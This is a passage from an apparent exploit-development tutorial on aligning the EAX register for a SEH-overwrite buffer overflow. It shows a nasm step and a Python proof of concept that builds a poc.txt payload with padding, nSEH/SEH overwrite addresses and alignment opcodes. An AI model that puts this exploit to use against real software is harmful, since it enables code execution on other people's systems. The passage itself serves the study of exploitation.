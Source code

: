 ![](/assets/img/Alignments/5.png)

As seen, the value given by the calculator is 67C. In order to align the EAX value as intended, the 16-bits of the register will be modified (ax), adding the given value, so it lands to the address that was chosen:

```term
nasm > add ax, 0x67c 
00000000  66057C06          add ax,0x67c
nasm > 
```

With this last step, the alignment part finishes!

Current poc:

```term
import struct 

alignment = "\x57\x58\x54\x58" # PUSH EDI, POP EAX / PUSH ESP, POP EAX
alignment += "\x66\x05\x7C\x06" # add ax, 0x67c

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x10031779)

buffer = "A" * 9008 + nseh + seh + "\x41\x49" * 5 + alignment + "\xff" * 200
f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```
